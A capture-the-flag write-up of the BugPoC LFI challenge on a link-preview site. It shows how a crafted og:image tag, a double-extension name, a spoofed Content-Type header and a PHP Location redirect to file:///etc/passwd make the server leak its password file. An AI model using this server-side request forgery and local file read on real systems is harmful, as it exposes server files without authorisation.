 # BUGPOC LFI Challenge

### We are given a website [Social Media Sharer](http://social.buggywebsite.com/) and We need to leak **etc/passwd**
  
  ![Social media sharer](1.png)
  
We can write and share posts via social accounts mentioned below
  
After looking into source code there is a javascript file with some functions and some checks.
 
The main function here is **processUrl()**.
 
```js
function processUrl(e) {
    requestTime = Date.now(),
    url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText),
        populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText),
        document.getElementById("website-preview").style.display = "none")
    }
    ,
    t.open("POST", url, !0),
    t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"),
    t.setRequestHeader("Accept", "application/json"),
    data = {
        url: e,
        requestTime: requestTime
    },
    t.send(JSON.stringify(data))
}
```
 
It takes url and makes a post.And then it calls **populateWebsitePreview()** function to fetch the og:image and its tags from the url and loads it to **imgData** .

 ![og:mage](2.png)

I crafted a html with meta tag og:image in my php server 

```html
<html>
<head>

	<meta property="og:image" content="/test.png">

</head>
</html>

```
Placed the ngrok link ,and observe the response there is base64 encoded data of our image file (test.png) .And we also see the incomming requests from the server to our local server.
Well we understand the functionality.It makes request to specified url/value which we place in the content of og:image 

If we place other than jpg,png,svg files in content we get an error `Image Preview Error: Invalid Image URL`

Lets see what checking this ..

### Checks and Bypass :

**Check 1**
- When we place content with image extensions , we getting a **HEAD** requestthen **GET** request which fetches the image ,If we provide any extensions other than jpg,png,svg we didn't get any HEAD incomming request .
- So the server checking the extension we placing, We can bypass this by providing **double extensions** like **test.svg.php**

**index.php**
```html
<html>
<head>

		<meta property="og:image" content="myserver/test.svg.php">

</head>
</html>


```

**Check 2**
- I created a php file with named `test.svg.php` and placed it in my local server and placed the link in content of og:image andthe server returns 
`Image Failed HEAD Test`
- By this error we know there is a check for HEAD method , if we see what is [HEAD request method](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)
  it only return Headers not reponse body .
- By observing the Incomming HEAD requests for Valid file , we see that it has a **Content-type** for successful request .
- So added **Content-Type: image/svg+xml** in the `test.svg.php`.We got no error there , so it happened , we bypassed HEAD check

```php
<?php

	header("Content-Type: image/svg+xml");

?>
	
```

**LFI**

If we observe clearly we have a **GET** request after the HEAD request to fetch the image content ,so if we redirect the GET request of the image` to file:///etc/passwd` it fetches the etc/passwd content.

So added a **Location** header to `file://etc/passwd` in the above php file.


**test.svg.php**

```php
<?php

	header("Content-Type: image/svg+xml");
	header('Location: file:///etc/passwd');

?>
	
```


place the ngrok link and see the response.

Guess what, :boom: It worked and  we leaked the etc/passwd

![etc/passwd](3.png)





Thanks for Reading :innocent:

